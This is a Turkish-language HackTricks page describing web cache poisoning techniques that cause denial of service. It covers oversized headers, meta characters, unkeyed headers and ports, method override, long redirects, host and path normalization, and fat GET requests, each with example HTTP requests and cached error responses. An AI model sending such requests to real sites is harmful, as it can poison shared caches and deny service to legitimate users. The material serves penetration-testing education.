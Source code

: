 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Bu sayfada, **cache sunucuları için geçerli olan** isteklere **web sunucusunun hatalarla yanıt vermesini** sağlamaya yönelik farklı varyasyonlar bulabilirsiniz.
{% endhint %}

* **HTTP Header Oversize (HHO)**

Web sunucusunun desteklediğinden daha büyük ama cache sunucusunun desteklediğinden daha küçük bir başlık boyutuyla bir istek gönderin. Web sunucusu, önbelleğe alınabilecek bir 400 yanıtı ile yanıt verecektir:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Karakteri (HMC) & Beklenmeyen Değerler**

Bazı **zararlı meta karakterler** içeren bir başlık gönderin, örneğin `\n` ve `\r`. Saldırının çalışması için önce önbelleği atlatmalısınız.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Kötü yapılandırılmış bir başlık sadece `\:` olarak bir başlık olabilir.

Bu, beklenmeyen değerler gönderildiğinde de çalışabilir, örneğin beklenmeyen Content-Type: gibi.
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Anahtarsız başlık**

Bazı web siteleri, _X-Amz-Website-Location-Redirect: someThing_ başlığı gibi istekteki belirli başlıkları **gördüklerinde** bir hata durum kodu döndürecektir:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Yöntem Aşımı Saldırısı (HMO)**

Eğer sunucu `X-HTTP-Method-Override`, `X-HTTP-Method` veya `X-Method-Override` gibi başlıklarla HTTP yöntemini değiştirmeyi destekliyorsa, sunucu tarafından desteklenmeyen bir yöntemle geçerli bir sayfa talep etmek mümkündür, böylece kötü bir yanıt önbelleğe alınır:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Anahtarsız Port**

Eğer Host başlığındaki port, yanıtta yansıtılıyorsa ve önbellek anahtarına dahil edilmemişse, kullanılmayan bir porta yönlendirmek mümkündür:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Uzun Yönlendirme DoS**

Aşağıdaki örnekte olduğu gibi, x önbelleğe alınmıyor, bu nedenle bir saldırgan yönlendirme yanıt davranışını kötüye kullanarak yönlendirmenin o kadar büyük bir URL göndermesini sağlayabilir ki bu bir hata döndürsün. Ardından, önbelleğe alınmamış x anahtarı olmadan URL'ye erişmeye çalışan kişiler hata yanıtı alacaklar:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Host başlık durum normalizasyonu**

Host başlığı büyük/küçük harf duyarsız olmalıdır ancak bazı web siteleri bunun küçük harf olmasını bekler ve eğer değilse bir hata döner:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Yol normalizasyonu**

Bazı sayfalar, yolda veri URLencode gönderildiğinde hata kodları döndürecektir, ancak önbellek sunucusu yolu URLdecode edecek ve URLdecoded yol için yanıtı depolayacaktır:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Bazı önbellek sunucuları, Cloudflare gibi, veya web sunucuları, gövdesi olan GET isteklerini durdurur, bu nedenle geçersiz bir yanıtı önbelleğe almak için kötüye kullanılabilir:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referanslar

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
